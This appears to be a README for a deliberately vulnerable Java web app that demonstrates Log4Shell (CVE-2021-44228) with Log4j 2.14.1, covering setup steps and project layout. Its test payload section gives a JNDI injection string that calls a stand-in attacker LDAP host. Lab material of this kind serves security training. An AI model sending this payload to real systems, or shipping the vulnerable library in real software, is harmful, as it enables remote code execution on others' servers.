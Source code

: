 # CVE-2021-44228 Log4Shell WebApp Demo

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- Simple HTML form
- Docker or manual Java support

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Main.java
├── log4j2.xml
├── setup.sh
├── README.md
└── libs/ (downloaded automatically)
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.

